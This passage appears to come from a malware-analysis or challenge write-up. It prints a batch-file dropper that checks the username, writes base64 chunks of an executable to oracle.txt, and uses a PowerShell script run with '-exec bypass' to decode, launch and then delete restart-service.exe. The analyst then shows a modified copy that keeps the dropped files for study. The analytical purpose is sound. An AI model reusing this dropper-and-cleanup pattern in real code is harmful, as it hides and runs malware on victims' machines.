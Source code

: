 Listing the content of the `6F39` batch file reveals the following.

```batch
@shift /0
@echo off

if %username% == matt goto correcto
if %username% == frankytech goto correcto
if %username% == ev4si0n goto correcto
goto error

:correcto
echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA > c:\programdata\oracle.txt
echo AAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4g >> c:\programdata\oracle.txt
<SNIP>
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >> c:\programdata\oracle.txt

echo $salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) > c:\programdata\monta.ps1
powershell.exe -exec bypass -file c:\programdata\monta.ps1
del c:\programdata\monta.ps1
del c:\programdata\oracle.txt
c:\programdata\restart-service.exe
del c:\programdata\restart-service.exe
```

Inspecting the content of the file reveals that two files are being dropped by the batch file and being deleted before anyone can get access to the leftovers. We can try to retrieve the content of the 2 files, by modifying the batch script and removing the deletion.

```batch
@shift /0
@echo off

echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA > c:\programdata\oracle.txt
echo AAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4g >> c:\programdata\oracle.txt
<SNIP>
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >> c:\programdata\oracle.txt

echo $salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) > c:\programdata\monta.ps1
```

After executing the batch script by double-clicking on it, we wait a few minutes to spot the `oracle.txt` file which contains another file full of base64 lines, and the script `monta.ps1` which contains the following content, under the directory `c:\programdata\`. Listing the content of the file `monta.ps1` reveals the following code.
